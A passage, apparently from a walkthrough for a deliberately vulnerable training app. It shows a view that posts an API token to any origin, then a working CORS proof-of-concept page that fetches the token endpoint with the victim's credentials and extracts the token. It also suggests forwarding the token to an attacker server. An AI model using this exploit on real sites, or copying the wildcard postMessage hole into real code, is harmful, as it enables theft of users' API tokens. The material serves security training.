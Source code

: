 ### Vulnerable code:

**View: /views/webmessage-api-token-popup.ejs**

```html
<script>
    var token = "<%-apiToken%>";
    window.opener.postMessage({'token': token}, '*')
    window.close()
</script>
```

## 13 CORS Information Disclosure

`cors-api-token` endpoint is vulnerable to Cross-Origin Resource Sharing your goal is to exploit it to steal victim user API Token.

### Exploit:

1. Save the following HTML code in an HTML file.

```
<html>
<body>
<center>CORS Exploiting POC</center>
<script>
document.addEventListener('readystatechange', ()=>{
  fetch('http://tauheedkhan.com:9000/cors-api-token', {credentials: 'include'})
    .then((response)=>{
      return response.text()
    })
    .then((html)=>{
      var parser = new DOMParser();
      var doc = parser.parseFromString(html, "text/html")
      var apiToken = doc.getElementById("apiToken").value;
      alert(apiToken);
    })
    .catch((err)=>{
      console.log(`Error: ${err}`)
    })
  })
</script>
</body>
</html>
```

2. Open the link in your victim browser and you will see a popup with a user API token you can also transfer this API token to your attacker server.
   
### Vulnerable Code

**Request endpoint & method**

```
Endpoint: /cors-api-token
Method: GET
```
